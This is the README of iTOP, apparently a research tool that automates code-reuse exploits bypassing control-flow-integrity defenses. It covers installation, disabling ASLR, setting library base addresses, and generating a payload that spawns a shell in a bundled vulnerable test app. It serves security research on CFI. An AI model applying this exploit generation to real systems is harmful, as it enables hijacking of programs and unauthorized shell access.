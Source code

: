 # About
* This is the GitHub repository of the indirect transfer oriented programming (iTOP) tool. iTOP can be used for evaluating the potential for automated crafting of advanced code reuse attacks which can bypass state-of-the-art control flow integrity (CFI) policies.

# Demo Videos

* iTOP: exploit writing in ESL.
[![pic1.png](https://i.postimg.cc/6pF2ZBmX/pic1.png)](https://tinyurl.com/y6cmbvyt)

* iTOP: spawning a system shell exploit.
[![pic1.png](https://i.postimg.cc/QMW6gxNk/pic2.png)](https://tinyurl.com/y6a9gk7c)

* iTOP: spawning a system shell with no CFI policy used.
[![pic1.png](https://i.postimg.cc/9QX0qrpK/pic3.png)](https://tinyurl.com/yyvxncqj)

* iTOP: spawning a system shell with the VTint policy in-place.
[![pic1.png](https://i.postimg.cc/FFPBQ66S/pic4.png)](https://tinyurl.com/yyrso75k)


# Installation

To run iTOP, you need a python2 or pypy environment with angr and antlr4-python2-runtime installed. We recommend creating a python virtual environment. The steps to set one up with the proper packages are outlined below.

1. create python2 virtualenv using virtualenv, virtualenvwrapper, conda, pipenv, or similar::

    $ virtualenv autocoop

2. enter virtualenv & install requirements::

    source autocoop/bin/activate
    pip install -r requirements.txt

3. make sure that "." is in the $PYTHONPATH::

    export PYTHONPATH=.:$PYTHONPATH


## Running iTOP

To generate a payload with iTOP, some setup is required. To make results reproducible, ASLR has to be disabled, and the exploit generation script has to be updated with the proper base library address for your system. In a real attack, this information can be extracted using information leaks. Running the lxs script with everything configured correctly will lead to a call to 'system("/bin/sh")'.

1. disable aslr::

    $ cd exploitable_app
    $ ./disable_aslr.sh

2. run lxs::

    $ cd exploitable_app/testapp
    $ ./run.sh
    [+] allocated buffer at 0xa0000000
    [+] number of parameters supplied 3
    [+] loaded cmake-build-debug/libAPP.so at 0x7ffff7ff2000
    ...

3. update lib base address in exploit_generator.py::

    <Auto-COOP/tool/exploit_generator.py>
    ...
    config = Config("exploitable_app/nodejs/libnode.so",
                      0x7ffff7ff2000, <-- UPDATE THIS
                      0xa0000000,
                      4096,
                      )
    ...

4. generate the payload::

    $ export PYTHONPATH=.
    $ python autocoop/exploit_generator.py esl_scripts/testsuite_coop/shell.esl

5. run lxs again::

    $ cd exploitable_app/testapp
    $ ./run.sh
    [+] allocated buffer at 0xa0000000
    [+] number of parameters supplied 3
    [+] loaded cmake-build-debug/libAPP.so at 0x7ffff7ff2000
    [+] fd 3
    [+] execute w00t..
    $

6. you just spawned a shell!
